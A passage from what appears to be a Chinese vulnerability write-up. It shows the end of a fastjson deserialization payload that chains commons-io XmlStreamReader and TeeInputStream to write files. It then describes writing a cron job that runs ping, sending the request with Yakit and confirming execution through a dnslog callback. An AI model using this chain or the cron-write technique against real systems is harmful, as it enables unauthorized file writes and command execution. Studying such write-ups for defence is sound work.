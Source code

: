 ```
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger3":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    }
  }
}
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0gRbr03C517VcMRABrtSscgghx7HgMETgYsc2V4yoqSIbVKrFrF9eug/640?wx_fmt=png&from=appmsg "")  
  
  
从该文章中可知写入的  
字符串长度要比较长才能写入到目标文件里面  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0R1jgNibBFxMpro9M14EHBS1BibrdB76AiaNPAzk5aODUvWpHOjZkJtjbw/640?wx_fmt=png&from=appmsg "")  
  
  
准备写入定时任务执行ping命令，还需要写入大量字符串，为了避免定时任务文件报错，将多余的字符串注释掉。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0Y9QMjUa2CUtvK5pFNos0iatGxv5YricTKZNpUcK0GV8AoM0CoonzCiafQ/640?wx_fmt=png&from=appmsg "")  
  
  
因为数据包太大了，使用bp不太好发，所以我这里使用了YAKIT发包，将定时任务文件写进去  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0LuumPMNfhS6QjbWmS6WUJFbwaFiaErFW6KnqL2tOvzNsFepZCAE2BXw/640?wx_fmt=png&from=appmsg "")  
  
过了一分  
钟收  
到了dnslog请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0Itjzetre0DibkHQKXOb6boUWhxDnkBy6bSnhDSEKGdicbPt1qMPjIvibw/640?wx_fmt=png&from=appmsg "")  
  
漏洞2、  
  
  
打开是一个登录框，点击登录抓包。  
  